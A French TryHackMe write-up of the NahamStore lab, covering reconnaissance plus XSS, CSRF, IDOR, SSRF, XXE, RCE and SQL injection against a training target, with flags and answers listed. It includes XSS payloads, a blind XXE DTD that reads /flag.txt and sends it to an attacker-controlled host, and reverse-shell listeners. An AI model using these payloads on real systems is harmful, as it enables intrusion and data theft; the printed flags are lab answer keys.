

# NahamStore #

## Task 1 NahamStore ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.25.153 NahamStore.thm' >> /etc/hosts" 
[sudo] Mot de passe de tim : 
```

On configure le domaine.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A nahamstore.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-15 19:57 CEST
Nmap scan report for nahamstore.thm (10.10.143.163)
Host is up (0.034s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 84:6e:52:ca:db:9e:df:0a:ae:b5:70:3d:07:d6:91:78 (RSA)
|   256 1a:1d:db:ca:99:8a:64:b1:8b:10:df:a9:39:d5:5c:d3 (ECDSA)
|_  256 f6:36:16:b7:66:8e:7b:35:09:07:cb:90:c9:84:63:38 (ED25519)
80/tcp   open  http    nginx 1.14.0 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     session: 
|_      httponly flag not set
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: NahamStore - Home
8000/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-open-proxy: Proxy might be redirecting requests
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=9/15%OT=22%CT=1%CU=39980%PV=Y%DS=2%DC=T%G=Y%TM=6142342
OS:D%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M506ST11NW7%O2=M506ST11NW7%O3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST1
OS:1NW7%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN
OS:(R=Y%DF=Y%T=40%W=F507%O=M506NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 3306/tcp)
HOP RTT      ADDRESS
1   33.26 ms 10.9.0.1
2   33.86 ms nahamstore.thm (10.10.143.163)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.41 seconds
```

D'arpès le scan on a deux service qui sont : 
Le service SSH sur le port 22.
Le service HTTP sur le port 80 et 8000. 

## Task 3 Recon ##

**Jimmy Jones SSN**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wfuzz -c -z file,/usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt  -H "Host: FUZZ.nahamstore.thm" -u "nahamstore.thm" --hw 65
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://nahamstore.thm/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                      
=====================================================================

000000001:   301        7 L      13 W       194 Ch      "www"                                                                                                                                                                        
000000037:   301        7 L      13 W       194 Ch      "shop"                                                                                                                                                                       
000000254:   200        41 L     92 W       2025 Ch     "marketing"                                                                                                                                                                  
000000960:   200        0 L      1 W        67 Ch       "stock"                                                                                                                                                                      

Total time: 0
Processed Requests: 4989
Filtered Requests: 4985
Requests/sec.: 0

```

Ici on remarque deux sous domaine marketing et stock.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.143.163 marketing.nahamstore.thm' >> /etc/hosts"
[sudo] Mot de passe de tim : 
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.143.163 stock.nahamstore.thm' >> /etc/hosts"
```

On enregistre les noms de sous domaines.  

En regardant dans les sous domaines on trouve rien.  

On va générer nos propres noms de domaines.

```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat word.txt
dev
nahamstore
```

   

On génère nos sous domaines.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wfuzz -c -z file,/home/tim/Bureau/tryhackme/write-up/domaine.txt -H "Host: FUZZ.nahamstore.thm" -u "nahamstore.thm" --hw 65
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://nahamstore.thm/
Total requests: 324

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                      
=====================================================================

000000303:   200        0 L      0 W        0 Ch        "nahamstore-2020-dev"                                                                                                                                                        

Total time: 1.339580
Processed Requests: 324
Filtered Requests: 323
Requests/sec.: 241.8667
```

On réussie à trouver un autre domaine.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.143.163 nahamstore-2020-dev.nahamstore.thm' >> /etc/hosts"
sh -c echo '10.10.143.163 nahamstore-2020-dev.thm >> /etc/hosts'


tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://nahamstore-2020-dev.nahamstore.thm/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -q
/api                  (Status: 302) [Size: 0] [--> /api/]
```

On configure le sous domaine.   
Avec  gobuster on découvre un répertoire api.  

tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://nahamstore-2020-dev.nahamstore.thm/api/ -w /usr/share/dirb/wordlists/common.txt -q
/customers            (Status: 302) [Size: 0] [--> /api/customers/]

On relance gobuster on trouve customers.   

   

**Jimmy Jones SSN**

On nous demande que un customer_id est requis.  


Le ssn de john est : 521-61-6392  

## Task 4 XSS ##


Quand on met un nouveau numéro de campagne pas bon on a un message d'erreur qui est passé en paramètre.  


On peut exécuter le script en le passant en paramètre dans error.  
Ce qui nous confirme qu'il a une faille XSS.  

**Enter an URL ( including parameters ) of an endpoint that is vulnerable to XSS**

L'adresse vulnérable est : http://marketing.nahamstore.thm/?error=

**What HTTP header can be used to create a Stored XXS**

  

On faisant une commande on voit l'user agent.   

  

Dans burp on modifit l'user agent en mettant un commande java scripte.  

 

On refait une commande et le scripte s'exécute.   

La réponse est : user-agent  

**What HTML tag needs to be escaped on the product page to get the XSS to work?**

  

En changeant et en mettant dans le nom du produit, dans le titre un scripte on arrive l'exécuter.
Donc il y a une faille XSS.   

Pour échaper la commande la balise est : title      

**What JavaScript variable needs to be escaped to get the XSS to work?**

```js
 var search = '';
    $.get('/search-products?q=' + search,function(resp){
        if( resp.length == 0 ){

            $('.product-list').html('<div class="text-center" style="margin:10px">No matching products found</div>');

        }else {
            $.each(resp, function (a, b) {
                $('.product-list').append('<div class="col-md-4">' +
                    '<div class="product_holder" style="border:1px solid #ececec;padding: 15px;margin-bottom:15px">' +
                    '<div class="image text-center"><a href="/product?id=' + b.id + '"></a></div>' +
                    '<div class="text-center" style="font-size:20px"><strong><a href="/product?id=' + b.id + '">' + b.name + '</a></strong></div>' +
                    '<div class="text-center"><strong>$' + b.cost + '</strong></div>' +
                    '<div class="text-center" style="margin-top:10px"><a href="/product?id=' + b.id + '" class="btn btn-success">View</a></div>' +
                    '</div>' +
                    '</div>');
            });
        }
    });
```

Dans la section search est gérée par un script.  

 

On on échape avec ';;', le script fonctionne.  

La variable qui doit être echapé est : search  

**What hidden parameter can be found on the shop home page that introduces an XSS vulnerability.**

 

On voit dans le lien que la variable cachée est : q 

**What HTML tag needs to be escaped on the returns page to get the XSS to work?**

```html
</textarea><script>alert(1)</script><textarea>
```

En incluant une autre saisie on peut exécuter le script.

 

Le scipt s'exécute.    

**What is the value of the H1 tag of the page that uses the requested URL to create an XSS**

 

Quand on met un mauvais lien on a une erreur.  

```html
 <div class="container" style="margin-top:120px">
        <h1 class="text-center">Page Not Found</h1>
        <p class="text-center">Sorry, we couldn't find /ret anywhere</p>
```

On remarque que page not founds a le tag H1.  

 

le mettant le script dans lien ça fonctionne.   

La valeur H1 est : Page Not Found    

**What other hidden parameter can be found on the shop which can introduce an XSS vulnerability**

 

On remarque que deux paramètres sont donnés.      

Quand la sourie est passée sur le boutton Add To basket le curseur change de forme. 
On tente l'exploit avec onmouseover.  

```html
http://nahamstore.thm/product?id=1&added=1&discount=123%22%20onmouseover=%22alert(1);//%22
```

On fait lien qui exécute le script quand la personne va survoler le boutton.  

 

Un foit le boutton survoler le script s'active.   

La réponse est discount.   

## Task 5 Open Redirect ##

**Open Redirect One**

La première redirection est : r

**Open Redirect Two**

 

Quand on tape r il y a redirect_url.  
Si om met l'adresse google.com ou autre et que l'on fait Add Address on va sur le site distant.  

La réponse est : redirect_url  

## Task 6 CSRF ##

**What URL has no CSRF protection**

```html
http://nahamstore.thm/account/settings/password
```

Pour le changement du mot de passe il y a pas de protection CSRF.   

**What field can be removed to defeat the CSRF protection**

```html 
<input type="hidden" name="csrf_protect" value="eyJkYXRhIjoiZXlKMWMyVnlYMmxrSWpvMExDSjBhVzFsYzNSaGJYQWlPaUl4TmpNeE9EQTROREF4SW4wPSIsInNpZ25hdHVyZSI6IjdkM2JmYWRlMTk5M2U0NTEwMzQ2OTYzOWIwMmFkN2Y2In0=">
                            <div><label>Email:</label></div>
                            <div><input class="form-control" name="change_email" value="a@a.com" ></div>
                            <div style="margin-top:7px">
                                <input type="submit" class="btn btn-success pull-right" value="Change Email"></div>

```
```bash
tim@kali:~/Bureau/tryhackme/write-up$ echo "eyJkYXRhIjoiZXlKMWMyVnlYMmxrSWpvMExDSjBhVzFsYzNSaGJYQWlPaUl4TmpNeE9EQTROREF4SW4wPSIsInNpZ25hdHVyZSI6IjdkM2JmYWRlMTk5M2U0NTEwMzQ2OTYzOWIwMmFkN2Y2In0=" | base64 -d
{"data":"eyJ1c2VyX2lkIjo0LCJ0aW1lc3RhbXAiOiIxNjMxODA4NDAxIn0=","signature":"7d3bfade1993e45103469639b02ad7f6"}

tim@kali:~/Bureau/tryhackme/write-up$ echo "eyJ1c2VyX2lkIjo0LCJ0aW1lc3RhbXAiOiIxNjMxODA4NDAxIn0=" | base64 -d
{"user_id":4,"timestamp":"1631808401"}
```

Quand on crée un émail on a une protection sur csrf_protect qui vérifie l'horodatage.  
Il suffit de la supprimer.

La réponse est : csrf_protect   

**What simple encoding is used to try and CSRF protect a form**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ echo "eyJkYXRhIjoiZXlKMWMyVnlYMmxrSWpvMExDSjBhVzFsYzNSaGJYQWlPaUl4TmpNeE9EQTROREF4SW4wPSIsInNpZ25hdHVyZSI6IjdkM2JmYWRlMTk5M2U0NTEwMzQ2OTYzOWIwMmFkN2Y2In0=" | base64 -d
{"data":"eyJ1c2VyX2lkIjo0LCJ0aW1lc3RhbXAiOiIxNjMxODA4NDAxIn0=","signature":"7d3bfade1993e45103469639b02ad7f6"}

tim@kali:~/Bureau/tryhackme/write-up$ echo "eyJ1c2VyX2lkIjo0LCJ0aW1lc3RhbXAiOiIxNjMxODA4NDAxIn0=" | base64 -d
{"user_id":4,"timestamp":"1631808401"}
```

L'encodage utilisé est le : base64.   

## Task 7 IDOR ##

**First Line of Address**

 

On va dans notre pannier on valide notre adresse, on intercepte notre que avec burp et on modifie la valeur address_id.  

 

On a l'adresse de la personne qui vit à new york.   

**Order ID 3 date and time**

 

On clique sur PDF Receipt.   

```text
POST /pdf-generator HTTP/1.1
Host: nahamstore.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://nahamstore.thm/account/orders/9
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: http://nahamstore.thm
Connection: close
Cookie: session=f0fa5b764d375d57b28ed677df585acd; token=a9c98205da77e394be444c1639c50061
Upgrade-Insecure-Requests: 1

what=order&id=9
```

On intercepte la requète avec Burp. 
On voit what=order&id=9  
On change la valeur de id par 3 

On a une message d'erreur : Order does not belong to this user_id

Le message nous dit que la commande n'appartient pas à l'utilisateur.  

```text
POST /pdf-generator HTTP/1.1
Host: nahamstore.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://nahamstore.thm/account/orders/9
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: http://nahamstore.thm
Connection: close
Cookie: session=f0fa5b764d375d57b28ed677df585acd; token=a9c98205da77e394be444c1639c50061
Upgrade-Insecure-Requests: 1

what=order&id=3%26user_id=3
```

Dans burp on rajoute le user_id.   

 

On obtient la facture avec la date et l'heure de la commande.   

## Task 8 Local File Inclusion ##

 

Sur la page principale sur uen image faite clique droit et view image ou voir image.  
On intercepte la requete Burp.  

 

On va lire le flag en mettant le bon chemin.    

 

On a notre flag qui est : {7ef60e74b711f4c3a1fdf5a131ebf863} 

## Task 9 SSRF ## 

**Credit Card Number For Jimmy Jones**

```text
POST /stockcheck HTTP/1.1
Host: nahamstore.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://nahamstore.thm/product?id=1&added=1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 40
Origin: http://nahamstore.thm
Connection: close
Cookie: token=a9c98205da77e394be444c1639c50061; session=0b23491e1ecc31f113d74e2773dfcf66

product_id=1&server=stock.nahamstore.thm
```

En clique sur checkstock on obtient voit que le site interoge un sous domaine.  


On rajoutant internal-api on a une reponse qui nous dit d'aller sur orders.    

 

Ici on a les numéros qui identifient les informations personnels.  

 

En mettant le bon id n on récupère les informations personnels.  

Le code la carte bleu est : 5190216301622131 

## Task 10 XXE ##

**XXE Flag**

 

En envoyant POST /product/1?xml on a comme réponse xml invalide.   


En voit que l'on peut modifier le message.  


On dit de lire le fichier flag.txt et on trouve notre flag.   

La réponse est : {9f18bd8b9acaada53c4c643744401ea8}  

**Blind XXE Flag**


Dans le lien /staff on nous demande un fichier xlsx.   

```bash
tim@kali:~/Bureau/tryhackme/write-up/xlsx$ unzip test.xlsx 
Archive:  test.xlsx
  inflating: _rels/.rels             
  inflating: xl/_rels/workbook.xml.rels  
  inflating: xl/workbook.xml         
  inflating: xl/styles.xml           
  inflating: xl/worksheets/sheet1.xml  
  inflating: docProps/core.xml       
  inflating: docProps/app.xml        
  inflating: [Content_Types].xml     
```

On créer un fichier xlsx vide et on le décompresse.  

```bash
tim@kali:~/Bureau/tryhackme/write-up/xlsx/xl$ cat workbook.xml | head -8
<?xml version="1.0"?>
<!DOCTYPE r [
<!ENTITY % sp SYSTEM "http://10.9.228.66:8000/sp.dtd">
%sp;
%param3;
%exfil;
]>
```

On remplace la permière ligne de workbook.xml dans xl, par le code ci-dessus.   
Il permet d'exécuter la charge utile qui est situé sur notre machine.    

```bash
tim@kali:~/Bureau/tryhackme/write-up/xlsx$ zip -r  test.xlsx .
  adding: [Content_Types].xml (deflated 73%)
  adding: _rels/ (stored 0%)
  adding: _rels/.rels (deflated 61%)
  adding: docProps/ (stored 0%)
  adding: docProps/app.xml (deflated 38%)
  adding: docProps/core.xml (deflated 48%)
  adding: xl/ (stored 0%)
  adding: xl/worksheets/ (stored 0%)
  adding: xl/worksheets/sheet1.xml (deflated 56%)
  adding: xl/workbook.xml (deflated 41%)
  adding: xl/_rels/ (stored 0%)
  adding: xl/_rels/workbook.xml.rels (deflated 54%)
  adding: xl/.workbook.xml.swp (deflated 93%)
  adding: xl/styles.xml (deflated 86%)

```

On recompresse le fichier.   

On crée le charge utile sp.dtd     

```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat sp.dtd 
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/flag.txt">
<!ENTITY % param3 "<!ENTITY &#x25; exfil SYSTEM 'http://10.9.228.66:4444/%file;'>">
```

On crée le fichier.   
Notre charge le le fichier flag.txt, l'encode en base64, puis envoie le résultat sur notre serveur.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ python3 -m http.server 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ..
```

On lance un serveur pour la récupération du fichier sp.dtd.    

```bash
tim@kali:~$ nc -lvnp 4444
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
```

On écoute sur le port 4444 pour récuperer la réponse.   



On envoie notre fichier test.xlsx

```bash
10.10.6.183 - - [03/Oct/2021 19:15:03] "GET /sp.dtd HTTP/1.0" 200 -

Ncat: Connection from 10.10.6.183.
Ncat: Connection from 10.10.6.183:49776.
GET /e2Q2YjIyY2IzZTM3YmVmMzJkODAwMTA1YjExMTA3ZDhmfQo= HTTP/1.0
Host: 10.9.228.66:4444
Connection: close
```

On récupère le résultat en base64.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ echo 'e2Q2YjIyY2IzZTM3YmVmMzJkODAwMTA1YjExMTA3ZDhmfQo=' | base64 -d
{d6b22cb3e37bef32d800105b11107d8f}
```

On décode le résultat est on a notre réponse.  

La réponse est : {d6b22cb3e37bef32d800105b11107d8f}   

## RCE ##

** First RCE flag **


Sur le port 8000 sur le lien nahamstore.thm:8000/admin on s'identifie avec les identifiants admin/admin.    


On édite une campagne, on remarque que dans le code on peut exécuter du code php.    

On copie un reverse shell php dans le code. 

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 4444
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
```

On écoute sur le port 4444 pour avoir un shell.   

On enregistre les modifications.   
Puis on regarde le résultat.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 4444
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.6.183.
Ncat: Connection from 10.10.6.183:60622.
Linux af11c847d4c7 4.15.0-135-generic #139-Ubuntu SMP Mon Jan 18 17:38:24 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 18:29:16 up  3:13,  0 users,  load average: 0.00, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ cat flag.txt
{b42d2f1ff39874d56132537be62cf9e3}
```

On obtient notre shell et on lit le flag à la racine.  
La réponse : {b42d2f1ff39874d56132537be62cf9e3}    

**Second RCE flag**


On fait une commande, on met burp en mode intercepte pn clique sur PDF Receipt.    

  

Sur burp on modifie, la valeur passée par un reverse-shell.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 4444
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
```

On écoute le port 4444 pour avoir un shell.   

On envoie la réquète et on obtien un shell. 

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 4444
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.6.183.
Ncat: Connection from 10.10.6.183:36354.
/bin/sh: 0: can't access tty; job control turned off
$ cd /
$ cat flag.txt
{93125e2a845a38c3e1531f72c250e676}
```

On obtient un shell, à la racine on obtient le flag.    
La réponse est : {93125e2a845a38c3e1531f72c250e676}   

## Task 12 SQL Injection ##

**Flag 1**

 

En incluant un caractère ' on obtient une erreur SQL, on peut faire une injection sql.   

 

On remarque que notre charge utile fonctionne sur la seconde colonne.   

 

On ajoute flag sur la seconde colonne et on a notre flag.  

La réponse est : {d890234e20be48ff96a2f9caab0de55c}   

**Flag 2 ( blind )**

 

 

On fait un bon de retour et on enregistre la requete avec burp sous un fichier req.txt.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sqlmap -r req.txt --dump
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.5.9#stable}
|_ -| . [.]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 21:38:13 /2021-10-03/
...
[21:39:17] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[21:39:17] [INFO] fetching current database
[21:39:17] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[21:39:17] [INFO] retrieved: nahamstore
[21:39:22] [INFO] fetching tables for database: 'nahamstore'
[21:39:22] [INFO] fetching number of tables for database 'nahamstore'
[21:39:22] [INFO] retrieved: 2
[21:39:22] [INFO] retrieved: order
[21:39:25] [INFO] retrieved: sqli_two
[21:39:29] [INFO] fetching columns for table 'sqli_two' in database 'nahamstore'
[21:39:29] [INFO] retrieved: 2
[21:39:29] [INFO] retrieved: flag
[21:39:31] [INFO] retrieved: id
[21:39:32] [INFO] fetching entries for table 'sqli_two' in database 'nahamstore'
[21:39:32] [INFO] fetching number of entries for table 'sqli_two' in database 'nahamstore'
[21:39:32] [INFO] retrieved: 1
[21:39:33] [INFO] retrieved: {212ec3b036925a38b7167cf9f0243015}
[21:39:52] [INFO] retrieved: 1
Database: nahamstore
Table: sqli_two
[1 entry]
+----+------------------------------------+
| id | flag                               |
+----+------------------------------------+
| 1  | {212ec3b036925a38b7167cf9f0243015} |
+----+------------------------------------+
...

```

On dump la base donnée avec sqlmap et on trouve le flag.   

La flag est : {212ec3b036925a38b7167cf9f0243015}  
